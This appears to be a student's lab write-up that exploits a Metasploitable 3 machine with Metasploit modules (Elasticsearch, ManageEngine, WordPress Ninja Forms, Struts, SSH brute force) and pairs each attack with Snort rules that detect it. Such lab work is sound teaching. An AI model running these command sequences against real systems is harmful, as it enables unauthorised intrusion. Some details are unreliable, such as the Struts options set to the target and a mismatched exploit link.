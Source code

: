 Please GO THROUGH THE PDF FILE

# Csb-2
Metasploitable 3 and Snort rules 
Cyber security base – Project 2

Target – Metasploitable 3
	    Windows Server 2008 & Ubuntu server 14

STEP 1: Run an Nmap Ping sweep scan to look for potential connected devices  

$ nmap -sP 192.168.1.1/24


STEP 2: Identify Target Host – 192.168.1.40

STEP 3: Run an nmap scan on the target machine with OS Fingerprinting and save the output in a file called Meta3.nmap


I ran a verbose nmap scan for which i have attached the output file:

# Nmap 7.80 scan initiated Sun Mar  8 20:48:34 2020 as: nmap -sC -sV -p- -A -oA Meta3 192.168.1.40 (output file attached)

The scan results reveled a lot of valuable information about the open ports and services running on the target machine. There is no authentication required to access the administrative functions, default credentials are not changed and there are several outdated versions running. Snort didn’t alert about anything, because port scan detection configurations has been commented out from snort.conf on default.

EXPLOIT I – ELASTIC SEARCH – CVE-2014-3120

STEP 4: PORT 9200 – Elasticsearch

Googling about the gethered information i stumbled upon this link which has an exploit for that service. 

Vulnerability name: Elastic search - CVE-2014-3120

https://www.rapid7.com/db/modules/exploit/multi/misc/java_rmi_server

STEP 5: Run a searchsploit and check if you have the exploit in local machine.

$ searchsploit elasticsearch



STEP 6: Turn on metasploit

$ msfconsole








STEP 7: search for an exploit and exploit the machine.

$ search elasticsearch
$ use exploit/multi/elasticsearch/script_mvel_rce
$ options
$ set rhost 192.168.1.40
$ exploit

you get a shell once you get a shell, you can run the following commands.

# sysinfo
# shell
# whoami


Snort did not log any alerts

SNORT RULE FIX: but after uncommenting line 811 (depends about ruleset) on server-other.rules file, Snort produces the following message: SERVER-OTHER ElasticSearch script remote code execution attempt [**] [Classification: Attempted User Privilege Gain]

EXPLOIT II - ManageEngine (CVE-2015-8249)

STEP 1: Port 8020 is running an Apache service 

STEP 2: Visit <your_meta_ip>:8020



Manage Engine is running in that port with a default username and password admin:admin

Manage Engine : Build No – 91084 

Googling for such information we get the following Poc
https://blog.rapid7.com/2015/12/14/r7-2015-22-manageengine-desktop-central-9-fileuploadservlet-connectionid-vulnerability-cve-2015-8249/

STEP 3: look for exploits in your device 

$ searchsploit manageengine desktop central 9


STEP 4: Turn on metasploit

$ msfconsole
$ search manageengie
$ use exploit/windows/http/manageengine_connectionid_write
$ set rhost 192.168.1.40
$ exploit

you gain meterprerer shell, run the following commands to conform.
# sysinfo			# shell 			# whoami
Once again, Snort doesn’t alert about anything, but this can easily be changed by 

SNORT RULE FIX: Uncommenting lines 1854-1856 on server-webapp.rules gives us following: SERVER-WEBAPP ManageEngine Desktop Central FileUploadServlet directory traversal attempt [**] [Classification: Web Application Attack]


Exploit III - WordPress – CVE-2016-1209
STEP 1: Visit <Meta_ip:>8585 you can see that wordpress is running.

STEP 2: Googling a little bit we found the following exploit
https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_ninja_forms_unauthenticated_file_upload
STEP 3: Trun on metasploit console and exploit the target.
$ msfconsole
$ search wp_ninja_forms
$ use exploit/multi/http/wp_ninja_forms_unauthenticated_file_upload
$ set rhost 192.168.1.40
$ set rport 8585
$ set TARGETURI /wordpress/
$ set FORM_PATH /index.php/king-of-hearts/
$ exploit

SNORT RULE FIX : After uncommenting line 2284 in server-webapp.rules and adding the port 8585 into monitoring HTTP traffic, Snort gives the following alert: SERVER-WEBAPP WordPress Ninja Forms nf_async_upload arbitrary PHP file upload attempt [**] [Classification: Attempted Administrator Privilege Gain]


EXPLOIT 4: Bruteforcing SSH
STEP 1: When you gained a root access last time, run the following command to see a list of all users in the system.
$net users

We can use the metaploit module for ssh_login to try to brute force into some of these available names.

STEP 2: save all the user name in a text file





















STEP 3: turn on metasploit and use the ssh_login module to check for insecure passwords same as username.

$ use auxiliary/scanner/ssh/ssh_login
$ set rhost 192.168.1.40
$ set USER_AS_PASS true
$ set USER_FILE user.txt
$ exploit

Give the user file that we created to metasploit and exploit

I had some issues with my arch linux so had to shift back to kali for this one.
We can already see that we got some valid credentials like Vagrant:Vagrant.

SNORT FIX : Snort could probably be generated for slower (longer) SSH brute force attempts, but for such a fast SSH connection it wouldn’t be wise to start raising alert flags (considering admin’s point of view).


EXPLOIT 5: Apache Struts CVE-2016-3087

STEP 1: Look nmap result port 8282 runs Apache Tomcat Server, 

STEP 2: After a bit of research we find the following:
https://www.rapid7.com/db/vulnerabilities/struts-cve-2016-3087

STEP 3: Open metasploit and look for exploit and hack the box.
$ msfconsole
$ search rest_exec
$ use exploit/multi/http/struts_dmi_rest_exec
$ set lhost 192.168.1.40
$ set lport 8282
$ exploit


We hacked the box 

SNORT RULE FIX: We can get Snort to figure this out by uncommenting lines 118 and 119 from server-apache.rules (which I had already done) and adding port 828 for monitoring. This gives us following message: SERVER-APACHE Apache Struts remote code execution attempt [**] [Classification: Attempted Administrator Privilege Gain]

Is it easier to fix the application than to detect attacks?

In my opinion, it is a lot easier to detect attacks than to fix an application. 
Because, the latter can be approached in various diffent ways than the former. 
In other words, it is more efficient to perform reconnissance, pen testing and privilege escalation to find the faults with 
the application than to go through millions of lines of codes to find faults to fix. 
More over, in the latter approach, ususally, one vulernability fix would give rise to multiple vulnerabilites and 
mistakes could be done on implementation level as well, not necessarily on the code level. 
So, problems like this could really put developers out of their elements. 
This is liable to make developers cause more errors as well. 
Developers usually have a lot on their plate and it is hard for them to take care of fixing the applications all by 
themselves especially with the recent proliferation in IoT. That is where intrusion detection comes in. 
Intrusion detection is at least a countermeasure, even though in not a direct way and it gives information about the 
possible vulnerabilities both on the system and its applications. 
Systems that are based on modern open source are obviously easier to fix, but first you must find the vulnerabilities, 
so considering the problem at hand, intrusion detection is also needed. Pentesting report and vulnerability analysis 
can actually expdite the process of fixing application. Usually, other than Intrusion Detection Systems (IDE) like snort. 
detecting attacks are done through managing and detecting logs as well. 
If there is any out of ordinary behavior is noticed in logs, 
then we can brace ourself for a vulnerability assessment and check for software or hardware to be updated 
(not all the time, false positives are really irritating though).
